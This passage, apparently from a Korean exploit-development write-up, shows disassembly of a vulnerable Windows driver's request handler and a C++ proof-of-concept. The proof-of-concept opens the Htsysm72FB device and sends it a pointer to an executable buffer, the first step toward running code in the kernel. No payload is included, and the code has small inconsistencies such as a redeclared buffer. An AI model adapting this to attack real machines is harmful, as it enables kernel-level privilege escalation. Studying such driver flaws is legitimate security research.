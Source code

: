 ```
.text:0000000000010626                 xor     edx, edx        ; PriorityBoost
.text:0000000000010628                 mov     rcx, rbx        ; Irp
.text:000000000001062B                 call    cs:IofCompleteRequest
.text:0000000000010631                 mov     eax, [rbx+30h]
.text:0000000000010634                 add     rsp, 20h
.text:0000000000010638                 pop     rdi
.text:0000000000010639                 pop     rsi
.text:000000000001063A                 pop     rbx
.text:000000000001063B                 retn
.text:000000000001063B sub_10590       endp
```

실제 어떠한 루틴을 거치는지 디버깅을 통해 수 많은 블루스크린을 겪어보며 진행을 해본다.

먼저 아래와 같은 코드를 컴파일한다.

```c++
#include <stdio.h>
#include <Windows.h>

int main()
{
	const wchar_t* deviceName = L"\\\\.\\Htsysm72FB";
	HANDLE driver = CreateFile(deviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	PBYTE inBuffer = (PBYTE)VirtualAlloc(0, 48, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	*(PULONG_PTR)inBuffer = (ULONG_PTR)(inBuffer + 8);
	
	
	if (driver == INVALID_HANDLE_VALUE)
	{
		fprintf(stderr, "Unable to access device driver\n");
		system("pause");
	}

	else {
		fprintf(stdout, "Device Handle : %p\n", driver);
		PBYTE inBuffer = (PBYTE)VirtualAlloc(0, 48, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		DWORD bytesReturned = 0;
		DWORD ioctlOutput = 0;

		ULONG_PTR target = (ULONG_PTR)(inBuffer + 8);

		if (DeviceIoControl(driver, IOCTL_SERIAL_LSRMST_INSERT, &target, 8, &ioctlOutput, 4, &bytesReturned, NULL))
		{
			fprintf(stdout, "Call DeviceIoControl\n"); 
			system("pause");
		}
		else {
			fprintf(stderr, "Call DeviceIoControl Failed\n");
			system("pause");
		}

		CloseHandle(driver);
	}
}
```
